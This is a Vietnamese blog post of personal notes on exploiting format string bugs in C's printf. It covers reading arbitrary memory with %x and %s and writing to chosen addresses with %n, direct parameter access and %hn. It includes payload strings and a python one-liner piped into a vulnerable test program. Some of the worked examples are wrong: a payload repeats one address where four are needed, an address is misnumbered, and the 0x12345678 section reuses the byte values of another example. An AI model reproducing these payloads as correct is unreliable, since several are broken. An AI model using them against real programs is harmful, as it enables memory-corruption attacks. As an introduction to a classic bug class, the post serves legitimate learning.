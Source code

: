 ```yaml
---
layout : post
title : Một vài điều cơ bản về format strings
--- 
```


# Mở đầu  
Đây là lỗi ít gặp hơn stack overflow nhưng cũng vô cùng quan trọng. Tại tính hay quên nên note lại, khi cần mở ra xem cho nhanh . Kiến thức lấy từ cuốn _**The art of exploitaion**_ - một cuốn khá hay dành cho người bắt đầu và cuốn _**Nghệ thuật tận dụng lỗi phần mềm**_ của Nguyễn Thành Nam. 
# Hàm printf   
Hàm **printf** trong C có cấu trúc như sau :
```C
int printf ( const char * format, ... );
``` 
Một hàm hay dùng như này sao có thể bị lỗi được 😳😳😳 Lúc đầu mình cũng rất ngạc nhiên.Nhưng nếu dùng đúng cách thì đương nhiên nó sẽ rất an toàn.
Chỉ khi trong format có % mà lại không có biến kèm vào sẽ gây ra những vấn đề phức tạp : 
```C
printf("%x") ;
```
Hàm trên sẽ in ra những giá trị tại một địa chỉ trong stack dưới dạng hexadecimal.

# đọc một địa chỉ bất kì  
Nếu chúng ta có một câu lệnh như sau : 
```C
printf(input) ; 
```
Thì chúng ta hoàn toàn có thể đọc và ghi lên một địa chỉ bất kì trong chương trình để làm những việc theo ý mình. 😎😎😎 Vào một ngày đẹp trờin ào đó mà thằng lập trình viên gõ lỗi lệnh như vậy , chương trình vẫn sẽ chạy bình thường nhưng hacker chúng ta thì sẽ có việc để làm thôi . Cơ màcó vẻ hiếm lắm vì trước kia mình còn chả biết là in ra được **inpu** luôn mà không cần format thì chạy được cơ mà.  
Thôi lan man đủ rồi , cách tấn công là làm như sau : 
```C
printf("\xff\xff\xff\xff %08x.%08x.%08x.....) 
```
Trong đó ```\xff\xff\xff\xff``` thay bằng địa chỉ mà bạn muốn đọc. Phần ```...``` là điền đủ số lượng cho tới khi in ra được địa chỉ ```\xff\xff\xff\xff``` . Sau đó chọn lựa format ```%08x``` đã in ra địa chỉ kia thay bằng ```%s``` . Thế là đọc được nội dung đã được lưu thôi. Một mẹo nhỏ là đầu tiên nên thay địa chỉ cần đọc bằng string ```AAAA``` để trong bước đầu tiên phân biệt cho nó dễ.  

# ghi lên một địa chỉ bất kì 
Bước đầu tiên chúng ta cũng làm như khi đọc giá trị của một địa chỉ bất kì. Bước cuối thay ```%s``` bằng ```%n``` . Khi đó thay vì đọc thì nó sẽ ghi số bytes đã được in bởi hàm prinf lên địa chỉ đích. Cơ mà ta thấy có một khó khăn rõ ràng là thông thường thì cần giá trị rất lớn , vd : ```0x08041337``` nếu thế thì hàm printf phải in rất nhiều mới đủ cho giá trị đó sao ? 😱😱😱 Điều đó không khả thi chút nào .  
Dưới đây trình bày lại một số thủ thuật ứng dụng cho từng trường hợp cụ thể để ghi giá trị lên địa chỉ ```0x08041337```
## ghi giá trị 0x300 
```C
printf("\x37\x13\x04\x08%768x%10$n")
```
```%10$n``` là cách truy cập trực tiếp một địa chỉ trên stack . Thay vì bạn dùng 10 kí tự ```%x``` thì ở đây chúng ta thay bằng 1 kí tự duy nhất thôi . Khá là tiện lợi và hữu ích trong trường hợp bị giới hạn kí tự input.  

## ghi giá trị 0x87654321 
Chúng ta sẽ thực hiện ghi từng bytes một lên lần lượt các địa chỉ 0x08041337,0x08041338,0x08041339,0x08041340 lần lượt các giá trị 0x21,0x43,0x65,0x87. Mình minh họa bằng python cho dễ nhìn. Giả sử ta có một chương trình C cho phép nhập input đầu vào có lỗi format như trên.
```python
python -c 'print"\x37\x13\x04\x08\x37\x13\x04\x08\x37\x13\x04\x08\x37\x13\x04\x08" + "%" + str(0x11) + "x%10$n%" + str(0x22) + "x%11$n%" 
+ str(0x22) + "x%12$n%" + str(0x22) + "x%13$n"' | ./test 
```
## ghi giá trị là 0x12345678
Chúng ta sẽ thực hiện ghi từng bytes một lên lần lượt các địa chỉ 0x08041337,0x08041338,0x08041339,0x08041340 lần lượt các giá trị 0x321,0x243,0x165,0x87. Mình minh họa bằng python cho dễ nhìn. Giả sử ta có một chương trình C cho phép nhập input đầu vào có lỗi format như trên. Tại sao phải làm vậy vì %n ghi độ dài chuỗi string đã được printf in ra nên ta không thể ghi 0x65 sau 0x87 được. 
## short write
Nếu dùng %n thì chúng ta ghi 4 bytes 1 lúc. Nếu chỉ muốn ghi 2 bytes thì dùng ```%hn``` thay thế. 

## Kết
Note lại có hơi vớ vẩn , cũng chỉ là copy lại để sau này dùng thôi :v Hope là sau này phát hiện ra cái mới để viết. 
![meo](https://tsukasakiyshu.files.wordpress.com/2012/06/3.png) 
